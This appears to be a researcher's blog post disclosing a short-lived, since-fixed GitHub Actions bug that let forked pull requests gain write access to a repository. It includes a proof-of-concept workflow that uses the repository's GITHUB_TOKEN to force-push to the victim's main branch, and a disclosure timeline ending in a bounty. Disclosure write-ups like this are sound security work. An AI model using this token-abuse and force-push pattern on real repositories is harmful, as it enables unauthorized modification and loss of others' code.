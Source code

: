 ```yaml
---
title: "Gain write permission of repositories with a bug in GitHub Actions"
date: 2021-04-02T22:28:00+09:00
---
```


# Gain write permission of repositories with a bug in GitHub Actions

GitHub Actions is a useful feature for the jobs, for example, building, publishing.

I found a bug which allows unauthorized users to edit the main branch of the repositories in GitHub.
Repositories which enables GitHub Actions are affected but fortunately, the bug exists in a brief window from 2021/02/04 18:42 UTC to 2021/02/05 13:35 UTC.
Also, protected branch is safe :)

---

Recently, I saw the case that some users abused the GitHub Actions for the DDoS.

[GitHub Actionsを使ったDDoSに巻き込まれた - 私が歌川です](https://blog.utgw.net/entry/2021/02/05/133642)

They forked many repositories, added a workflow file which runs some malicious program on pull request event, and created pull requests, so that their programs run in target repositories.
I'm not sure if that is correct but I guess they sent those pull requests to bypass [the resource limits on GitHub Actions](https://docs.github.com/en/actions/reference/usage-limits-billing-and-administration).
If the resource is shared for the pull request jobs, how about the `GITHUB_TOKEN`?

The `GITHUB_TOKEN` allows the workflow to commit a code, create packages, and so on.
Therefore, if the `GITHUB_TOKEN` for the target repository is shared for the jobs triggered by pull request, we gain write permission of the respository without authorization!
So I tested.

---

The test was simple. Just send a pull request and wait.

1. Victim prepares a repository which has random workflow file in `.github/workflows`. (Make sure the attacker has no permission to commit the repository.)

2. Attacker forks the repository and replace the workflow file to the following one. This workflows edit main branch after pull request event.

```
on: [pull_request]

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2

      - name: Create local changes and commit
        run: |
          echo test > newfile
          git add newfile
          git config --local user.email "namatyage@gmail.com"
          git config --local user.name "tyage"
          git commit -m "Add changes" -a
          git remote set-url origin https://x-access-token:${{ secrets.GITHUB_TOKEN }}@github.com/${GITHUB_REPOSITORY}
          git push --force origin HEAD:refs/heads/main
```

3. Attacker sends a pull request to the parent repository and waits for a while.

Surprisingly, the test was succeeded.
After the workflow finishes, victim repository has been modified!

(Send pull request to `tyage-test/repo-with-workflow`)
![](screenshot1.png)

(`tyage-test/repo-with-workflow` was polluted)
![](screenshot2.png)

I reported the bug to GitHub, and they fixed the bug quickly :)

--- 

Another short story:

Interestingly, a one day before I found the bug, another people had found a similar bug.

[Stealing arbitrary GitHub Actions secrets | Teddy Katz’s Blog](https://blog.teddykatz.com/2021/03/17/github-actions-write-access.html)

Though this is a independent bug, the bug also exists in GitHub Actions and is triggered by crafted pull request.

---

## Timeline

- **2021/02/04 18:42 UTC** The bug was born
- **2021/02/05 12:09 UTC** I reported this issue to [GitHub Bug Bounty Program](https://hackerone.com/github)
- **2021/02/05 13:35 UTC** The bug was dead
- **2021/02/05 17:58 UTC** I received a message that the issues was fixed
- **2021/03/31 13:14 UTC** GitHub awarded a $25,000 bounty